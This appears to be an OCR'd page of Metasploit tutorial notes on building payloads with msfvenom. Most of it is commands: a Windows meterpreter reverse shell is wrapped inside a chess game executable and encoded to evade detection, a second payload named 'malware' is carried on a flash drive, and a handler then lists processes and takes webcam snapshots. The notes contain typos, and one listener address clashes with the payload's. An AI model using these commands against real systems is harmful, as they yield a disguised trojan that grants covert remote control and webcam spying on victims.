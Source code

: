 When we build our custom payload, we can use the --platform <targetplatform> syntax to designate our target platform.

    msf6> msfvenom -l formats
    
    msf6> msfvenom -p <payload name> --payload-options
    
    msf6> msfvenom -p windows/meterpreter/reverse_tcp --payload-options
    
    msf6> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR LOCAL IP> LPORT=<whatever port you want to listen on> -k -x /usr/share/chess.exe -e x86/shikata_ga_nai -i 200 -f exe > bestdigitalchess.exe

-k is keep the function of the template file

-x designates the template

-e x86/shikata_ga_nai designates the encoder we want to use

-i 200 represent the number iterations

-f exe designates we want to create an executable

msfvenom defaults to x86, of course, if we want to create an x64 payload, we will need to add "-a x64" to our command.

    msf6> use exploit/multi/handler
    
    msf6> set payload windows/meterpreter/reverse_tcp
    
    meterpreter> sysinfo

**Gainin Control Over a System with Physical Access**

Build an executable with msfvenom

    msf6> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f exe >malware

Next, copy the malware.exe file to a flash drive.

    msf6> use multi/handler
    
    msf6> set payload windows/meterpreter/reverse_tcp
    
    msf6> set LHOST 192.11.1.1
    
    msf6> set LPORT 4444
    
    msf6> exploit
    
    meterpreter> ps
    
    meterpreter> webcam_list
    
    meterpreter> webcam_snap
    
    Exploting Android Devices
    
    msf6>search type:exploit platform:android
    
      
    
    msf6> search type:platform platform:android

.apk (Android PacKage File)
